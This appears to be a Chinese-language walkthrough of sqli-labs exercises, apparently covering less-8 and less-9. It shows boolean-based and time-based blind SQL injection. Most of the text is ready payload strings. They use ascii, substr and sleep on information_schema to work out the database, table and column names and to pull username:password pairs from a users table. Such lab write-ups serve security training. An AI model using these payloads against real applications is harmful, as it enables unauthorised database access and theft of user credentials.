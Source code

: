 #### 思路：

判断后为单引号闭合（`?id=1' and 1=1--+`正常，`?id=1' and 1=2--+`报错）

**payload**

```
?id=1' and ascii(substr(database(),1,1))=115--+		//猜库名

?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<120--+		//猜表名

?id=1' and substr((select group_concat(column_name) from information_schema.columns where table_name='member' limit 0,1),4,1)='u'--+		//猜列名，直接猜字符串

?id=1' or substr((select group_concat(username,":",password) from users),1,1)=']'--+
//猜数据
```



### less-9

#### 考点：基于时间的盲注

#### 思路：

无论怎么输入，都没反应，判断为盲注，于是用`?id=1' and sleep(3)--+`结果延时输出，ok

**payload**

```
?id=1' and if(length(database())>1,sleep(3),1) --+	//猜库名长度

?id=1' and if(ascii(substr(database(),1,1))=112,sleep(3),1)--+ //猜库名


?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<120,sleep(3),1) --+	//猜表名长度

?id=1' and if(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,2)='ht',sleep(3),1) --+		//猜表名

?id=1' and if(substr((select group_concat(column_name) from information_schema.columns where table_name='member' limit 0,1),4,1)='u',sleep(3),1)--+		//猜列名

?id=1' or if(ascii(substr((select group_concat(username,":",password) from users),1,1))=97,sleep(3),1)--+
//通过ASCII码大小判断得到数据

?id=1' or if(substr((select group_concat(username,":",password) from users),1,1)='a',sleep(3),1)--+
//判断得到数据
```


